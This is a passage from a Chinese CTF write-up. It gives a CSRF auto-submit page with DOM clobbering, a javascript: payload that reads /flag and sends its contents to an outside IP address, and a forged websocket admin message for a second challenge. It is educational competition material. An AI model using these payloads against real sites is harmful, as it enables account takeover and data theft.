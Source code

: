```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <form id="form" action="<http://localhost:8000/beAdmin>" method="post">
        <input name="username" value="awc">
        <input id="csrftoken" name="csrftoken" value="">
    </form>
    <iframe name=fff srcdoc="<iframe srcdoc='<input id=aaa name=ggg href=cid:Clobbered
value=this_is_what_i_want>test</input><a id=aaa>' name=lll>"></iframe>
    <script src="crypto-js.min.js"></script>	<!--同目录下传一份-->
    <script>
        csrftoken.value = CryptoJS.SHA256(Math.sin(Math.floor(Date.now() /
            1000)).toString()).toString(CryptoJS.enc.Hex);
        form.submit();
    </script>
</body>
</html>
```

![image-20220628152555103](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220628152555103.png)

尴尬的是只能获得这后半部分，csrftoken总是爆破不对，这里参考[SU战队的wp](https://mp.weixin.qq.com/s/DCxrEmkYzFdUa2YHOdnD7g)

```js
javascript:s=q=>window.open('http://101.35.114.107:2301/?q='+encodeURIComponent(q));s('start');w=window.open('/flag');setTimeout(()=>{s('timeout');s(w.document.body.innerText)},1000)
```

![image-20220628155441694](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220628155441694.png)

直接转发一手responseText即可，但是尴尬的是打比赛的时候我想到了，但是用的是笨拙的xhr，就没成功…………我太菜了

## *poorui

http://124.71.181.238:8081/

当时没来得及看这道题，但是看wp貌似很简单（非预期？）

burp拦截websocket

```
{"api":"getflag","from":"admin"}
```

预期解还没有看，挖个坑
